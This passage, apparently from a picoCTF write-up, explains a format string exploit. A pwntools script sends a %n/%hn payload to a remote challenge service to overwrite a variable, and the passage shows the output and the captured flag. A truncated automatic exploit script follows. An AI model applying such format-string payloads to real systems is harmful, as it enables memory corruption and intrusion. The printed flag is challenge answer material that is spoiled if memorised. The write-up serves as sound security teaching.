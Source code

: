 `%20$hn` : This specifier writes 2 bytes (half a word) to the memory address that's stored on the *20th* argument on the stack. This use the `%hn` modifier to ensure that we only modify the lower-order 2 bytes.

Our output:
```
sus = 0x67617573
You can do better!
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to rhea.picoctf.net port 57321
```
*Notice the first 4 numbers of sus has changed?*

Now we just need to write the high order bytes, `0x6c66`, which is `27750` when converted to decimal. Since we've already written `26465` for the low order bytes, we just need to write 1285 more characters:

```py
from pwn import *
r = remote('rhea.picoctf.net',55608)
s = r.recvuntil('say?')
r.sendline(b'%26464d,%20$hn%1281dAAAA%19$hnx,%22$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00WEAREHERE')
r.interactive()
```
One final time, let's break this down:
- `1281d` - This specifies that 1281 characters should be printed
- `AAAA` - Placeholder padding (4 characters)
- `%19$hn` - Writes 2-byte value (or half-word) to the 19th stack. The `hn` modifier will write the high-order bytes.

Output:
```
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}[*] Got EOF while reading in interactive
$
```
This have our flag!: `picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}`



## Bonus: the automatic way
If you don't really care to learn how to manually execute a format string vulnerability, I've left a pwntools script below:

```py
from pwn import *

# use 'objdump -t ./vuln | grep sus' to find sus address
addr = 0x404060



host = 'rhea.picoctf.net'
port = 50181

p = remote(host, port)

# ELF object loadss binary 'vuln' which is what we're exploiting
context.binary = ELF('./vuln')

# Create a function called 'send_payloads', send a payloads to the remote service and receive all data sent back from the remote service
def send_payloads(payloads):
    p = remote(host, port)
```
